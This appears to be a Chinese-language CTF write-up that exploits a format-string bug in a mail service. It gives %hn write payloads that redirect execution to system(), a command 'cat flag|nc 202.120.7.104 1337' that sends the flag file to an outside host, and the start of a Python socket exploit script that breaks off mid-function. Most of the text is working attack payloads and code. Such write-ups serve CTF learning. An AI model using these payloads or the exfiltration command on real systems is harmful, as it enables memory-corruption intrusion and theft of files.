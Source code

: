"%43616x%33$hn"			# 将%62$指向0x0804aa60，即指向邮件数目变量地址

"%36252x%21$hn"

"%43618x%33$hn"			# 将%46 指向0x0804aa62，即指向邮件数目变量地址后两字节

"%36204x%21$hn"

"%60016x%33$hn"			# 0xea70, system在内存中的地址(0xf74aea70)的低字节

"%62$n"				# 邮件数清零

"%36206x%21$hn"

"%63306x%33$hn"			# 0xf74a, system在内存中的地址(0xf74aea70)的高字节

"%15851x%46$hn%15074x%62$hn\n"	# 将mail_num 改成所需的大小0x3deb78cd

​				# 0x0804aa40 + 0x3deb78cd * 4 = 0xffb28d74

​				# 注意高低字节都要改而且必须同时改

​				# 否则在改完第一个之后再进outbox 就会出错

最后构造一封邮件内容如下

"cat flag|nc 202.120.7.104 1337"

​				# system("cat flag|nc 202.120.7.104 1337")

当邮件写完，该邮件内容即字符串地址就会写到上面的栈地址0xffb28d74上，返回时作为system参数调用









另外一种写法，稍后理解了格式化字符串漏洞可以再理解下。。

基本思路和上面一样，不同的地方有：定位libc里的函数地址时，这里没有选择一个libc中的函数来定位，而是直接使用格式化字符串漏洞来dump栈内存，从中找到main返回到libc中的地址，根据该地址来定位，其实是一样的。

另外利用格式化字符串写栈上内存时所使用的格式化字符串不同，格式化字符串构造不唯一，理解原理再回头看吧。

第三，堆上的参数字符串的地址如何定位的，文章没说，需要看下下面的脚本理解

```
import socket

import struct

import sys

st = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

st.connect(('218.2.197.244',2337))

def S(x):

st.send(x+'\n')

def W(x,Show=True):

while True:

s = st.recv(4096)

if Show:

sys.stdout.write(s)

if x in s:

```